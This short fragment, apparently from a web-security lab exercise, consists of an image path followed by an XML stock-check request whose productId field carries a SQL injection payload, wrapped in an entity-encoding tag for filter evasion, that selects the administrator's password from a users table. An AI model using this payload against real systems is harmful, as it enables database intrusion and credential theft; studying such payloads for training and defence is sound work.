 //<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId><@hex_entities>**1 UNION SELECT password from users where username ='administrator'--**</@hex_entities></productId><storeId>3</storeId></stockCheck>//
